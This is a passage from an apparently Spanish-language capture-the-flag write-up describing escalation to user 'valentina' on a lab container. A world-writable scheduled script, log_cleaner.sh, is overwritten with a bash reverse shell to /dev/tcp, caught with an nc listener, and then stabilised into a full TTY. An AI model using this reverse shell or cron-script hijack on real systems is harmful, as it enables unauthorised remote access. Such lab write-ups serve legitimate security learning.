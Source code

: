 ## Escalate user valentina

Si inspeccionamos la carpeta `/opt` veremos el siguiente archivo:

```
total 12
drwxr-xr-x 1 root      root      4096 Feb 10 03:46 .
drwxr-xr-x 1 root      root      4096 Feb 13 16:47 ..
-rwxrw-rw- 1 valentina valentina   30 Feb  9 01:47 log_cleaner.sh
```

Vemos que el archivo es de `valentina`, pero podemos escribir dicho archivo y pensare que lo estara ejecutando cada `x` tiempo, por lo que borraremos el interior del codigo y pondremos lo siguiente:

```bash
#!/bin/bash

bash -c "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1"
```

Lo guardamos y nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Y tendremos que esperar unos segundos, pasados unos segundos, si vamos a ver donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.60.128] from (UNKNOWN) [172.17.0.2] 38584
bash: cannot set terminal process group (2196): Inappropriate ioctl for device
bash: no job control in this shell
valentina@796c859a931f:~$ whoami
whoami
valentina
```

Vemos que seremos el usuario `valentina`, por lo que ahora tendremos que sanitizar la shell.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

